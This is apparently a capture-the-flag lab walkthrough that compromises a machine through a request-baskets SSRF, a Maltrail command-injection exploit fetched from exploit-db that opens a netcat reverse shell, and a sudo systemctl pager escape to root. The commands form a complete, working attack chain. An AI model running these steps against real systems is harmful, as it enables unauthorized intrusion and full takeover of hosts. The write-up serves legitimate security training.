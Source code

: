 Using nmap we use fast port search:

```
nmap -p- --min-rate=1000 -T4 {victim ip} 
```
We can take those ports and run them against a service search:

```
nmap -sC -sV {victim ip}
```

The webapp on the port 55555 has a request-baskets instance running. This is a web service that collects arbitrary HTTP requests and inspects them.

The version of requets-basket is 1.2.1, which has a Server-Side Request Forgery CVE-2023-27163

In the configurations on the web app add the forward url to `http://{local ip}`, then start a netcat listener on our local.

```
nc -lnvp 80
```

Send a `curl` to the web app

```
curl http://10.10.11.224:55555/2ck6d27
```
And we do get a GET request on the netcat listner.

We change the forwarding port in the configurations tab to localhost `127.0.0.1`, checking proxy response and expand forward path boxes.

If we look at the url and delete the `web` in `http://10.10.11.224:55555/web/<id>` we see that the web page is running Maltrail (v0.53) and is vulnerable to a unauthenticated OS Command Injection.

To get a foothold, we download the exploit:

```
curl -s https://www.exploit-db.com/download/51676 > exploit.py
```

And start a netcat listener:
```
nc -lnvp 4444
```

Now we run the exploit:

```
python3 exploit.py 10.10.14.6 4444 http://10.10.11.224:55555/2ck6d27
```
And we get a shell on the netcat listener

To get a better shell we run:

```
script /dev/null -c bash
```

The user on the system is puma, and we run `sudo -l` to see what software puma can run as super user.

```
NOPASSWD: /usr/bin/systemctl status trail.service
```

This is vulnerable to CVE-2023-26604

We run 

```
sudo /usr/bin/systemctl status trail.service
```

Press return once, then run `!/bin/bash` and we get root access.

We can find the root flag in the file `/root/root.txt`
